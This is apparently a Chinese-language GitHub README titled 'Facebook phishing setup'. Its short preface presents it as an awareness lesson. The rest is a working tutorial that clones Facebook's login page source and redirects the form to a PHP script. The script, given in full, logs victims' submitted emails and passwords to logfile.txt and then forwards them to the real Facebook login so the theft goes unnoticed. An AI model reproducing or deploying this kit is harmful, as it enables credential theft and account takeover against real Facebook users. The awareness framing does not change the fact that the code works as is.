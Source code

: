 # Facebook釣魚架設     

## 前言
此教程展示主要是要告訴大家，釣魚網站製作可以很簡單，所以大家在使用網頁時，針對可疑的連結不要輕易去點，網址記得要去查看是否為正確，或是把常用的連結弄成書籤，以避免被釣魚網站竊取帳密

## 影片展示
https://www.youtube.com/watch?v=t0YWDlTCjr4

##　製作過程
### FB釣魚頁面製作(index.html)
先在真正的Facebook頁面按右鍵"檢視原始碼"

![](image/a.png)

把原始碼都複製下來

![](image/b.png)

貼在自己的index.html

然後用Ctrl+F 尋找"form"，把action後的內容改成login.php

![](image/c.PNG)

### php 後端程式編寫(login.php)
```php
<?php
$passwd = $_POST["pass"];
$account = $_POST["email"];
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
?>
<html>
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
<body>
Something goes wrong.Redirecting.......
</body>
</html>
```
```php
$passwd = $_POST["pass"];
$account = $_POST["email"];
```
以上帳號密碼的名稱可以從form表單得知
![](image/d.PNG)

以下為php語法，把前端輸入的帳號密碼寫到logfile.txt檔案裡
```php
$data = fopen("logfile.txt","a+");
fwrite($data, "Username: $account\nPassword: $passwd\n");
fclose($data);
```
跳轉到真正的FB頁面
```html
<meta http-equiv="refresh" content="1;url=https://www.facebook.com/login.php">
```